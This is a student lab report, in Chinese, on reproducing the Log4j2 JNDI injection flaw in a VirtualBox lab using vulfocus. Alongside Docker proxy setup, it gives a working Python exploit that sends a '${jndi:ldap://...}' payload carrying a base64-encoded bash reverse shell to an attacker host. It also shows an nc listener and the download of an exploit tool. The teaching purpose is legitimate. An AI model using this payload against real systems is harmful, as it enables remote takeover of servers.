









# 2024 夏网络空间安全综合实践-实验报告

## 环境

- `VirtualBox` Version 7.0.10 r158379 (Qt5.15.3)
- `Kali-Attacker`:
  - `VERSION_ID="2024.2"`
  - `hostname`: `kali-attacker.mlab`
- `ubuntu-victim`
  - `22.04.3 LTS (Jammy Jellyfish)`
  - `hostname`: `ubuntu-victim.mlab`

## 拉取 docker 镜像

### 网络配置

由于目前（2024 年 7 月）国内无法正常访问 docker 及其国内镜像

下面在 `VirtualBox` 的 `虚拟机` 中，配置使用 `宿主机` 的代理，以便拉取 docker 镜像

1. 首先确保 `虚拟机` 已使用 `NAT` 网卡连接到网络。



2. 确保宿主机上的代理服务已经启动。



3. 在 `虚拟机` 中配置使用 `宿主机` 的代理

```bash
cat<< EOF > /etc/docker/daemon.json
{
  "proxies": {
    "http-proxy": "http://10.0.2.2:7890",
    "https-proxy": "http://10.0.2.2:7890",
    "no-proxy": "*.test.example.com,.example.org,127.0.0.0/8"
  }
}
EOF

systemctl restart docker  # 重启 docker 服务
```

5. 检查代理是否配置成功

```bash
docker info | grep -i proxy
```



6. 拉取镜像

```bash
docker pull vulfocus/vulfocus:latest
```



### 原理解释

在 `VirtualBox` 的 NAT 模式下的拓扑图如下：



`NAT` 模式下，`虚拟机` 被分配到的 IP 地址均为 `10.0.2.15`，其 `网关` 均为 `10.0.2.2`

这完全是一个 `软件定义网络`，而且 `Virtualbox` 在 `NAT` 模式下，除了进行传统的 `NAT` 服务外，还有一个 _便捷功能_ ——将直接访问 `网关 10.0.2.15` 的流量转发到 `宿主机` 的 `localhost回环网卡` 中。

## 启动 vulfocus 容器

安装 `jq` 使得 `start.sh` 脚本能够解析 `json` 文件

```bash
sudo apt update && sudo apt install jq
```

由于 `docker compose` 已经默认集成到了 `docker` 中，这里对 [start.sh](https://github.com/c4pr1c3/ctf-games/blob/master/fofapro/vulfocus/start.sh) 脚本第 47 行更新为 `docker compose`：





成功访问 `web` 页面





## 漏洞利用

### JNDI 注入利用工具

```bash
wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  # 下载

unzip JNDIExploit.v1.2.zip  # 解压
```

为方便分辨，这里攻击者的 `hostname` 已经配置为 `kali-attacker.mlab`

下面在 `kali-attacker.mlab` 上运行 `JNDIExploit`：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i kali-attacker.mlab  # 运行
```

### 攻击者监听 7777 准备接收 shell

```bash
nc -l -p 7777
```

### 受害者环境配置

由于直接在 `vulfocus` 中启动 `漏洞环境镜像` 默认 30 分钟后销毁，且由于其随机端口转发，不方便调试。故这里使用 `docker-compose` **直接启动** `log4j` 漏洞环境。

docker image: [vulfocus/log4j2-rce-2021-12-09:1](https://hub.docker.com/r/vulfocus/log4j2-rce-2021-12-09/tags)

```yaml
services:
  log4j:
    image: "vulfocus/log4j2-rce-2021-12-09:1"
    ports:
      - "8080:8080" # 固定端口转发
```

### 漏洞利用代码

```python
"""log4j2 JNDI 注入"""

import base64
import urllib.parse

import requests

ATTACKER_HOSTNAME = "kali-attacker.mlab"
VICTIM_HOSTNAME = "ubuntu-victim.mlab"

shell_redirection = f"bash -i >& /dev/tcp/{ATTACKER_HOSTNAME}/7777 0>&1"

shell_redirection_bytes = shell_redirection.encode("ascii")
shell_redirection_b64 = base64.b64encode(shell_redirection_bytes).decode("ascii")

print(f"Encoded string: {shell_redirection_b64}")


params = {
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjIxNC83Nzc3IDA+JjE=}",
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjE2Mi83Nzc3IDA%2BJjE%3d}",
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    + urllib.parse.quote_plus(shell_redirection_b64)
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,
    verify=False,
    timeout=10,
)

print(response.request.url)
print(response.text)
```

### Demo

[](https://asciinema.org/a/667333)

## 参考

- [Configure the daemon to use a proxy](https://docs.docker.com/config/daemon/proxy/)
- [VirtualBox Network Settings: Complete Guide](https://www.nakivo.com/blog/virtualbox-network-setting-guide/)
